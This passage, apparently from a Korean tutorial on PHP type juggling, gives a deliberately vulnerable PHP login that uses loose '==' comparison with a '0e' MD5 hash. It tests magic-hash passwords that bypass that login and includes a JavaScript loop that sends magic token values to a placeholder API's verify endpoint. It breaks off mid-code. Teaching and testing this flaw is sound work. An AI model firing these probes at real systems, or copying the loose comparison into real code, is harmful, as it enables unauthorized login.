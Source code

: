 ### 시나리오 1: 로그인 우회 테스트

```php
<?php
// 테스트 대상 코드
function vulnerable_login($username, $password) {
    $users = [
        'admin' => '0e462097431906509019562988736854' // MD5('240610708')
    ];
    
    if (isset($users[$username]) && $password == $users[$username]) {
        return true;
    }
    
    return false;
}

// 테스트 케이스
$test_cases = [
    ['admin', '240610708'],      // 정상 비밀번호
    ['admin', 'QNKCDZO'],        // Type juggling 공격
    ['admin', '0e123456789'],    // 직접적인 0e 문자열
    ['admin', '0'],              // 숫자 0
    ['admin', 'wrongpass']       // 잘못된 비밀번호
];

foreach ($test_cases as [$username, $password]) {
    $result = vulnerable_login($username, $password);
    echo "Username: $username, Password: $password, Result: " . ($result ? 'SUCCESS' : 'FAIL') . "\n";
}
?>
```

### 시나리오 2: API 토큰 우회 테스트

```javascript
// JavaScript로 API 테스트
async function testTypeJuggling() {
    const baseUrl = 'https://api.target.com';
    const magicValues = [
        '0e123456789012345678901234567890',
        '0e999999999999999999999999999999',
        '0',
        0,
        false,
        null,
        ''
    ];
    
    for (const value of magicValues) {
        try {
            const response = await fetch(`${baseUrl}/verify`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                    'Authorization': `Bearer ${value}`
                },
                body: JSON.stringify({
                    token: value,
                    user_id: value
                })
            });
            
```